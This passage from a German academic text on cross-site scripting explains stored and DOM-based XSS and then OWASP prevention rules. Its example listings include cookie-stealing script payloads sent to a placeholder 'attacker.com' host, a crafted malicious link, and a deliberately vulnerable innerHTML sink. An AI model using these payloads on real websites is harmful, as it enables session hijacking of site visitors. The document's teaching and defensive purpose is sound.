Latest Comment: "<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> Previous Comment: </h1>
		Sandwiches are delicious
	<h1> Latest Comment: </h1>
	<script>
		window.location='http://attacker.com/?cookie='+document.cookie
	</script>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}

Durch diese Zeile JavaScript Code im Kommentarfeld wird nun jedes Mal, wenn diese Seite geladen wird, das Skript, welches auf attacker.com gehostet wird, ausgeführt.

Diese Art von XSS Angriff kann eine große Menge an Opfer finden, denn verteilt man den Link von der angeblich sicheren Seite, gefährdet dies jeden Besucher, ganz egal wie vorsichtig dieser sonst auch ist. Aus der Sicht von Bob ist es um einiges schwieriger eine dauerhafte XSS Attacke durchzuführen, weil er nicht nur eine Schwachstelle in der Web-Anwendung finden muss, sondern auch eine Web-Anwendung, welche einen großen Pool an Nutzern hat. Stimmen jedoch diese zwei Punkte überein, kann sehr großflächiger Schaden entstehen.

\subsubsection{DOM XSS – lokales XSS}
\label{subsubsection:dom_xss}

% IMAGE DOM-based XSS
Erstmals beschrieben wurde DOM-basiertes XSS 2005 von Amit \textcite{klein2005}. DOM XSS steht für Document Object Model basiertes cross-site scripting. Der Angriff spielt sich ausschließlich im Webbrowser ab, und im Unterschied zu Angriffen über reflektiertes oder persistentes XSS ist der schädliche Code kein Bestandteil der vom Server gelieferten HTML-Daten. Das macht es dem Server oder der Web Application Firewall unmöglich ihn zu erkennen. Diese Art von XSS ist dann möglich, wenn die Web-Anwendung Daten, welche nicht ordnungsgemäß behandelt werden, in das DOM schreibt.
Der Angreifer Bob kann die Daten der Web-Anwendung oder der Webseite mittels schadhaftem JavaScript Code manipulieren.  Ein typisches Beispiel einer solchen Attacke, kann wie folgt aussehen. Die Webseite http://website.com/search ist individuell vom der Suchanfrage abhängig. Diese ist kodiert in der URL und wird auf der Webseite direkt verwendet.

\begin{figure}[ht]
	\centering
	
\includegraphics[width=1\linewidth]{images/medium/3_dom_xss.png}
	\caption[Der Prozess des DOM-basierten XSS-Angriffs]
	{Der Prozess des DOM-basierten XSS-Angriffs \autocite{makarem2018}}
\end{figure}


Ruft man die Seite \verb+http://website.com/search?keyword=XSS+ auf, resultiert dies in einer angepassten Suchanfrage für XSS. Ersetzt man jedoch den keyword Parameter mit einem Skript-tag und ruft \verb+http://website.com/search?keyword=<script>+ \verb+Evilfunction()</script>+ auf, sendet der Web-Browswer eine HTTP Anfrage an \verb+http://website.com+ und bekommt eine statische HTML Seite zurück. Der Web-Browser baut das DOM auf und füllt die Eigenschaft \verb+document.URL+ mit der URL, welche das Skript enthält.

\begin{lstlisting}[caption={Beispiel für DOM-based XSS Attacke},label=dom_xss_example]
Hey user, check this out: "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

GET "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> You Searched for:</h1>
	<div id ="searchquery"></div>
	<script>
		var keyword = location.search.substring(3);
		document.querySelector('searchquery').innerHTML = keyword;
	<script>
</html>

<html>
	<h1> You Searched for:</h1>
		<div id ="searchquery">
			<script>window.location='http://attacker.com/?cookie='+document.cookie</script>
		</div>
	<script>
		var keyword = location.search.substring(3);
		document.querySelector('searchquery').innerHTML = keyword;
	<script>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}

Der Web-Browser parsed die HTML Seite, und führt bei \verb+document.URL+ angekommen das Skript aus und lädt dabei den schadhaften Code von der \verb+document.URL+. Ist die Seite vollständig geladen, befindet sich der JavaScript Code vom Angreifer im DOM und wird durch den Interpreter im Web-Browser ausgeführt.

DOM-based XSS Attacken sind der Typ von XSS Angriffen, die im Document Object Model (DOM) einer HTMl Seite stattfinden, so dass der HTTP-Antwort-Code auf eine andere Art und Weise läuft. DOM XSS Angriffe können von einer Vielzahl von DOM Objekten durchgeführt werden \autocite[763]{swaswatigoswami2017}.

\begin{itemize}
	\item Username oder Passwort als Teil von location oder URL\newline In diesem Fall wird der Payload vom Server im Authentication Header vom Server empfangen.
	\item Ein Teil, wo sich der Queryteil in der URL befindet\newline In diesem Fall ist der Payload Teil der URL in der HTTP Anfrage
	\item Fragment eines Teils einer URL\newline Dieser Teil enthält im wesentlichen des Payload in der URL getrennt durch das ``\verb+#+'' Symbol. In diesem Fall wird der Payload nicht vom Server empfangen
	\item HTML DOM Referrer Objekt\newline Das Referrer Objekt ist document.referrer welches die URL des aktuell geladenen Dokuments represäntiert. In diesem Fall wird der Payload Teil im Referrer Header vom Server empfangen.
\end{itemize}

Wie auch bei \textcite{eilers2015a} beschrieben ist der Client-seitige Code einer Webanwendung vor allem dann für DOM-basiertes XSS anfällig, wenn diese Daten aus vom Angreifer kontrollierbaren Objekten wie zum Beispiel \verb+document.location+, \verb+document.URL+ oder \verb+document.referrer+ oder lokale Eingaben im Web 2.0\footnote{https://wirtschaftslexikon.gabler.de/definition/web-20-51842} ohne Prüfung auf eingeschleuste Codes verwendet werden.


\section{Prävention und Behebung von XSS-Angriffen}
\label{section:prevention_of_xss_attacks}

Wie es bei \textcite{kirda2009} im Abstract gut zusammengefasst ist, liegt die Herausforderung bei XSS Angriffen darin, dass diese zwar einfach installiert und angewandt werden können, es sich jedoch sehr schwierig gestalten kann diese zu entdecken und zu verhindern. Wörtlich heißt es im Paper:

\selectlanguage{english}
\begin{quote}
``XSS attacks are easy to execute, but difficult to detect and prevent. One reason is the high flexibility of HTML encoding schemes, offering the attacker many possibilities for circumventing server-side input filters that should prevent malicious scripts from being injected into trusted sites.''

\autocite[592]{kirda2009}
\end{quote}

Das heißt, genau der Vorteil – die hohe Flexibilität von HTML-Codierungsschemata- bieten dem Angreifer viele Möglichkeiten, serverseitige Eingabefilter zu umgehen, die verhindern sollen, dass schädliche Skripte in vertrauenswürdige Sites eingefügt werden.
Wie Carsten \textcite{eilers2015} schon 2015 festgestellt hatte, könnte man natürlich in den Feldern, die für Benutzerinnen und Benutzer zur Verfügung gestellt werden, überhaupt kein HTML und damit JavaScript akzeptieren. Wenn die Eingabe nur Klartext enthalten darf, wird sie schon beim Auftauchen eines einzigen HTML-Tags abgelehnt. Diese einfache Lösung ist in Zeiten des Web 2.0, das auf der Mitwirkung der User abzielt, deutlich schwieriger, erwünschte und unerwünschte Eingabe der Benutzenden auseinander zu halten. Aus Sicherheitsgründen lassen Webanwendungen daher als Alternative BB-Codes zu, die beim Export der akzeptierten Texte scheinbar gefahrlos in gültigen HTML-Code konvertiert werden können, oder fertigen Black- oder Whitelists an, um unerwünschte Eingaben zu vermeiden. Diese Arten der Prävention werden in den nächsten Unterpunkten erläutert und diskutiert.

\subsection{XSS Prävention: Alternative BB – Codes}
\label{subsection:prevention_bb-codes}

Wie schon erwähnt, kann statt HTML eine Alternative wie BB-Code\footnote{https://www.content.de/Textformatierungen-mit-BB-Code} verwendet werden. BB- Codes bestehen bis auf seltene Ausnahmen aus einem öffnenden und einem schließenden Element, das durch einen Slash (/) eingeleitet wird. Sie orientieren sich an den HTML-Befehlen, werden jedoch in eckigen Klammern geschrieben. Durch [b]Text[/b] wird mit BB-Code beispielsweise ein Text in Fettschrift markiert, \verb+<+ und \verb+>+ werden dabei nicht benötigt und können gelöscht oder umgewandelt werden.
Werden alle \verb+<+ und \verb+>+ ersetzt, ist es, wie bei Eilers beschrieben, nicht mehr möglich HTML-Tags, wie zum Beispiel \verb+<script>..</script>+  einzuschleusen. Wenn trotzdem HTML-Tags eingegeben werden, statt diese durch ihre BBCode-Entsprechungen zu ersetzen, agieren die Anwendungen meist so, dass sie diese zuerst einmal nur zurückweisen, um nicht jeden Bedienungsfehler gleich mit einer Sperre zu bestrafen. Das Problem dabei ist, dass das Zurückweisen für einen Angriff auf die Benutzenden ausgenutzt werden kann. Diese Vorgehensweise wurde bereits im Punkt Reflektiertes XSS beschrieben. Eine weitere Schwachstelle ergibt sich außerdem dadurch, dass der BBCode danach in einen HTML-Code umgewandelt werden muss. Dabei muss laut \textcite{eilers2015} unbedingt darauf geachtet werden, dass in der Ausgabe nicht doch noch ein Schadcode landet, der durch einen geschickt formulierten BBCode von der Webanwendung möglicherweise in einen ausführbaren JavaScript-Code umgewandelt wird.

\subsection{XSS Prävention: Black- oder Whitelist?}
\label{subsection:prevention_black_or_whitelists}

Andere Ansätze zur Prävention ist das Filtern von unerwünschten Tags durch sogenannte Blacklists oder das Zulassen von erwünschten Eingaben durch Whitelists. White- und Blacklists\footnote{https://www.security-insider.de/was-ist-eine-whitelist-und-blacklist-a-667574/} haben diametrale Ansätze. Bei einer Blacklist ist grundsätzlich alles gestattet, was nicht in der Liste zu finden ist, während bei einer Whitelist grundsätzlich alles untersagt ist, was nicht ausdrücklich in der Liste eingetragen wurde.
Wie auch bei Eilers beschrieben, ist es gerade bei XSS nahezu unmöglich, eine vollständige Liste zu erstellen, die alle möglichen Tags mit Abwandlungen und Kombinationen daraus berücksichtigt, um zu verhindern, dass funktionsfähige, schädliche Codes an der Blacklist vorbei geschleust werden können. Wie später in der Analyse beschrieben, zeigt das ``Cross Site Scripting Prevention Cheat Sheet''\footnote{\url{https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html}} von OWASP und das HTML5 Security Cheatsheet unzählige Möglichkeiten auf, wo und wie XSS-Code an Blacklists vorbei eingeschleust werden können.
Aus dieser Beschreibung heraus lässt sich erkennen, dass eine Whitelist um einiges einfacher zu erstellen ist.  Dabei kann es auch zu Fehlern kommen: Wenn eine Benutzerin oder ein Benutzer in das Feld ein ``\verb+<+'' Zeichen eingeben will und beispielsweise ``x soll \verb+<+ als y sein'' schreiben möchte, wird dieses Zeichen aus den bereits erwähnten Gründen nicht zugelassen. Der Benutzende, der keine böse Absichten hatte, bekommt stattdessen eine Fehlermeldung und die Eingabe wird zurückgewiesen.  Hier muss sich der Ersteller der Webanwendung entscheiden: Gibt er eine ausführliche Fehlermeldung aus, weiß der Benutzende, dass es am ``\verb+<+'' gelegen ist und kann dieses bei der nächsten Eingabe ausbessern,  wenn  jemand jedoch einen XSS- Angriff gestartet hat, weiß er dadurch auch, woran er bei der Eingabe gescheitert ist.


\subsection{DOM-basierte Prävention nach Owasp}
\label{subsection:prevention_dom_based_owasp}

Wie bereits beschrieben, laufen beim reflected und beim stored XSS die Angriffe über die Webanwendung auf den Server. Das DOM-basierte XSS läuft dagegen ausschließlich im Client-Code des Webbrowsers ab. Dadurch ist im Unterschied zu Angriffen über reflektiertes oder persistentes XSS der Schadcode kein Bestandteil der vom Server gelieferten HTML-Daten und weder der Server noch ein IDS/IPS oder eine Web Application Firewall können ihn darin also erkennen \autocite{owasp2020}.

DOM-basiertes XSS ist aufgrund seiner weitläufigen Angriffsfläche und der mangelnden Standardisierung über alle Browser hinweg sehr schwer zu entschärfen, um XSS präventiv entgegenzuwirken hat die die Owasp auch zusätzlich Richtlinien von webbasierten Java Scriptanwendungen erstellt. Demnach sollen beispielsweise nicht vertrauenswürdige Daten nur als Klartext behandelt werden und es soll vermieden werden nicht vertrauenswürdige Daten als Code oder Markup in JavaScript-Code zu behandeln. Die OWASP-Foundation hat daher sieben Regeln erstellt, um dieser Art von Attacke vorzubeugen.

\subsubsection{Regel 1: HTML- und JavaScript-Escape vor dem Einfügen nicht vertrauenswürdiger Daten in den HTML Unterkontext}

Es gibt einige Methoden und Attribute, die in JavaScript verwendet werden können und direkt HTML zu rendern. Um hier XSS entgegenzuwirken sollte die Eingabe ordnungsgemäß vor dem Einfügen escaped werden.

\begin{lstlisting}[numbers=none, caption={Regel 1 - HTML- und JavaScript-Escape vor dem Einfügen nicht vertrauenswürdiger Daten}, label=Beispiel HTML- und JavaScript-Escape]
// dangerous HTML attributes/methods
element.innerHTML = "<HTML> Tags and markup";
document.write("<HTML> Tags and markup");

// escape like this
element.innerHTML = "<%=Encoder.encodeForJS(Encoder.encodeForHTML(untrustedData))%>";
document.write("<%=Encoder.encodeForJS(Encoder.encodeForHTML(untrustedData))%>");
\end{lstlisting}

\subsubsection{Regel 2: JavaScript-Escape vor dem Einfügen in den HTML Attribute Unterkontext}

Der HTML-Attribut- Unterkontext im Ausführungskontext weicht von den Standardcodierungsregeln ab. Dies liegt daran, dass die Regel zur Codierung von HTML-Attributen in einem HTML-Attribut-Rendering-Kontext erforderlich ist, um Angriffe zu verringern, die versuchen, aus einem HTML-Attribut aufgerufen werden oder zusätzliche Attribute hinzuzufügen, die zu XSS führen könnten.

Wenn Sie sich in einem DOM-Ausführungskontext befinden, müssen Sie nur HTML-Attribute mit JavaScript codieren, die keinen Code ausführen (andere Attribute als Ereignishandler-, CSS- und URL-Attribute).

\begin{lstlisting}[numbers=none, caption={Regel 2 - Beispiel JavaScript-Escape vor dem Einfügen in den HTML Attribute Unterkontext}, label=Beispiel JavaScript-Escape]
var x = document.createElement("input");
x.setAttribute("name", "company_name");
x.setAttribute("value", '<%=Encoder.encodeForJS(companyName)%>');
var form1 = document.forms[0];
form1.appendChild(x);
\end{lstlisting}

\subsubsection{Regel 3: Vorsicht beim Einfügen von nichtvertrauenswürdigen Daten in den Unterkontext des Event Handler und des JavaScript-Codes in einem Ausführungskontext}

Das Einfügen dynamischer Daten in JavaScript-Code ist besonders gefährlich, da die JavaScript-Codierung im Vergleich zu anderen Codierungen eine andere Semantik für JavaScript-codierte Daten aufweist. In vielen Fällen stoppt die JavaScript-Codierung Angriffe in einem Ausführungskontext nicht. Daher besteht die Hauptempfehlung darin, nicht vertrauenswürdige Daten in diesem Zusammenhang zu vermeiden.

\begin{lstlisting}[numbers=none, caption={Regel 3 - Beispiel JavaScript-Escape vor dem Einfügen in den HTML Attribute Unterkontext}, label=Beispiel Beispiel JavaScript-Escape im HTML Attribut Unterkontext]
var x = document.createElement("a");
x.href="#";
// In the line of code below, the encoded data on the right (the second argument to setAttribute)
// is an example of untrusted data that was properly JavaScript encoded but still executes.
x.setAttribute("onclick", "\u0061\u006c\u0065\u0072\u0074\u0028\u0032\u0032\u0029");
var y = document.createTextNode("Click To Test");
x.appendChild(y);
document.body.appendChild(x);

// better way but still bad design approach
<a id="bb" href="#"> Test Me</a>
document.getElementById("bb").onclick = "\u0061\u006c\u0065\u0072\u0074\u0028\u0037\u0029";
\end{lstlisting}


\subsubsection{Regel 4: JavaScript-Escape vor dem Einfügen nicht vertrauenswürdiger Daten in den CSS Attribut Unterkontext im Ausführungskontext}

Normalerweise muss für die Ausführung von JavaScript aus einem CSS Kontext entweder \verb+javascript:attackCode()+ die CSS- \verb+url()+Methode übergeben oder die CSS- \verb+expression()+Methode aufgerufen werden, die JavaScript-Code zur direkten Ausführung übergibt. Stellen Sie sicher, dass Sie eine URL-Codierung der an die CSS- \verb+url()+Methode übergebenen Daten verwenden, um die CSS- Methode zu entschärfen.



\begin{lstlisting}[numbers=none, caption={Regel 4 - Beispiel JavaScript-Escape vor dem Einfügen in den CSS Attribut Unterkontext}, label=Beispiel JavaScript-Escape im CSS Attribut Unterkontext]
document.body.style.backgroundImage = "url(<%=Encoder.encodeForJS(Encoder.encodeForURL(companyName))%>)";
\end{lstlisting}

\subsubsection{Regel 5: URL-Escape und dann JavaScript-Escape vor dem Einfügen nicht vertrauenswürdiger Daten in den URL Attribut Unterkontext im Ausführungskontext}

Die Logik, die URLs im Ausführungs- und Renderingkontext parsed scheint die gleiche zu sein.Daher ändern sich die Codierungsregeln für URL-Attribute in einem Ausführungskontext kaum.
Vorsicht jedoch bei der Verwendung von vollständig qualifizierte URLs, denn \verb+http:+ wird zu \verb+http+ kodiert, um zu verhindern, dass ein \verb+http+ Protokoll aufgerufen werden kann und verändert damit die Logik der URL.

\begin{lstlisting}[numbers=none, caption={Regel 5 - Beispiel URL-Escape vor dem Einfügen in den URL Attribut Unterkontext}, label=Beispiel URL-Escape im URL Attribut Unterkontext]
var x = document.createElement("a");
x.setAttribute("href", '<%=Encoder.encodeForJS(Encoder.encodeForURL(userRelativePath))%>');
var y = document.createTextElement("Click Me To Test");
x.appendChild(y);
document.body.appendChild(x);
\end{lstlisting}



\subsubsection{Regel 6: Füllen Sie das DOM mit sicheren JavaScript-Funktionen oder -Eigenschaften}

Der einfachste Weg das DOM mit nicht vertrauenswürdigen zu füllen ist unter Verwendung der Eigenschaft \verb+textContent+.

\begin{lstlisting}[language=HTML, numbers=none, caption={Regel 6 - Beispiel Sichere JavaScript Funktionen oder Eigenschaften}, label=Beispiel Sichere JavaScript-Funktionen oder -Eigenschaften]
<script>
element.textContent = untrustedData;  //does not execute code
</script>
\end{lstlisting}

\subsubsection{Regel 7: Beheben von Sicherheitslücken in DOM-Cross-Site-Scripting}

Der beste Weg, um DOM-basiertes XSS zu beheben, ist die Verwendung der richtigen Ausgabemethode. Wenn Sie beispielsweise Benutzereingaben zum Schreiben in ein \verb+div tag+Element verwenden möchten, verwenden Sie nicht \verb+innerHtml+, sondern verwenden Sie \verb+innerText+oder \verb+textContent+. Dies löst das Problem und ist der richtige Weg, um DOM-basierte XSS-Schwachstellen zu beheben. Um das Problem in unserem ursprünglichen Code zu beheben, würden wir einfach versuchen, die Ausgabe \verb+element.textContentin+ einen Inhalt wie den folgenden zu schreiben , anstatt zu versuchen, die Ausgabe korrekt zu codieren, was mühsam ist und leicht schief gehen kann.

\begin{lstlisting}[language=HTML, numbers=none, caption={Regel 6 - Beispiel Sichere JavaScript Funktionen oder Eigenschaften}, label=Beispiel Sichere JavaScript-Funktionen oder -Eigenschaften]
<b>Current URL:</b> <span id="contentholder"></span>
...
<script>
document.getElementById("contentholder").textContent = document.baseURI;
</script>
\end{lstlisting}

Das Ergebnis ist dasselbe, aber dieses Mal ist es nicht anfällig für DOM-basierte XSS-Schwachstellen